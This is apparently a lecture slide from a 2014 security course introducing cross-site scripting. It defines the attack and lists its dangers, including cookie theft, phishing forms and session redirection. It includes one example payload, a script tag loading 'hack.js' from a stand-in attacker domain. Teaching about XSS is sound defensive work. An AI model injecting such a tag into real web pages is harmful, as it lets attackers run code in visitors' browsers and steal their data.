

72
# Cross-Site Scripting (XSS)
Cross-site consists in inserting a script into a web page
Often, the script itself is located on an other server
Cross-site scripting
Example <script src="http://www.evilsite.com/hack.js">
Dangers
Session redirecting (e.g. on a copy of the original website)
Display fake information or forms to collect data (phishing)
Steal cookies
Corrupt data
Marco Canini, © 2014
28 Jan 2014